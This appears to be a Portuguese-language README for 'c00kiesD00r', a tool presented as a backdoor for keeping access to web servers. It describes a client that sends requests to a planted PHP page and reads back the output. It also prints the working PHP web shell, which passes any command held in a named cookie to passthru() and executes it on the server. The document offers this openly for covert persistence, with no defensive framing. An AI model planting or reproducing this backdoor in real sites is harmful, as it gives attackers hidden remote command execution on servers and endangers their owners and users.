 # c00kiesD00r
Cookies backdoor, aplicação utilizada para manter acesso em servidores Web.
A mesma envia requisições do tipo GET com parametros setados no User-Agent para determinada página PHP, onde a mesma faz a leitura dos cookies recebidos e passa como parâmetro para a função passthru() do PHP para que o comando seja, claro, executado no servidor. O programa faz a leitura do retorno do comando executado no servidor e exibe para usuário.

- PHP Backdoor...

        if (isset($_COOKIE['A988934']) && !empty($_COOKIE['A988934'])) {
          die(passthru($_COOKIE['A988934']));
        }
